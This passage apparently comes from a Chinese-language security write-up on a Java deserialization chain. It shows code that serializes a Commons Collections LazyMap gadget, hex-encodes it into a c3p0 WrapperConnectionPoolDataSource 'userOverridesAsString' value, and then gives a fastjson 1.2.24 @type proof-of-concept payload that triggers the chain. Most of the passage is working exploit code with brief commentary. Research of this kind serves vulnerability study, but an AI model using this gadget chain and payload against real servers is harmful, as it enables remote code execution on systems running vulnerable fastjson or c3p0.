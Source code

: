 ```
        Field factoryField = lazyMapClass.getDeclaredField(&#34;factory&#34;);
        factoryField.setAccessible(true);
        factoryField.set(Lazy, cha);
        Lazy.remove(&#34;aaa&#34;);
        serilize(hashmap);

        InputStream in = new FileInputStream(&#34;test.bin&#34;);
        byte[] bytein = toByteArray(in);
        String Hex = &#34;HexAsciiSerializedMap{&#34;&#43;bytesToHexString(bytein,bytein.length)&#43;&#34;}&#34;;
        WrapperConnectionPoolDataSource exp = new WrapperConnectionPoolDataSource();
        exp.setUserOverridesAsString(Hex);
    }
    public static void serilize(Object obj)throws IOException {
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream(&#34;test.bin&#34;));
        out.writeObject(obj);
    }
    //将输入流转换为字节数组
    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }
    //将字节数组转换为十六进制
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i &lt; length; &#43;&#43;i) {
            String sTemp = Integer.toHexString(255 &amp; bArray[i]);
            if (sTemp.length() &lt; 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
}
```

上面分析到能调用 setter 和 getter ，不难想到 fastjson ，fastjson 的 poc ，这里我拿的是最简单的 1.2.24 版本的来举例的

```
        String hex = &#34;序列化后的hex数据&#34;;

        String payload = &#34;{&#34; &#43;
                &#34;\&#34;@type\&#34;:\&#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\&#34;,&#34; &#43;
                &#34;\&#34;userOverridesAsString\&#34;:\&#34;HexAsciiSerializedMap:&#34; &#43; hex &#43; &#34;;\&#34;,&#34; &#43;
                &#34;}&#34;;
        JSON.parse(payload);
```
